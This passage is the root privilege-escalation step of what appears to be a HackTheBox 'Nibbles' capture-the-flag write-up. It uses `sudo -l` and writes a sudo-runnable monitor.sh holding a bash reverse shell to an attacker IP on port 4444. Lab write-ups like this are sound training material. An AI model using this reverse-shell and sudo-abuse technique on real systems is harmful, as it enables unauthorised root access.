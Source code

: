 ```py
if __name__ == '__main__':
    main()
```

Let's begin our privilege escalation

# nibbles -> root

With `sudo -l` we see that we can execute a script as root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:35:15.png)

We create this file on the folder

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.9/4444 0>&1' > monitor.sh
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:39:38.png)

And now we get root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-13-HackTheBox-Nibbles/2021-12-13-HackTheBox-Nibbles%2007:40:38.png)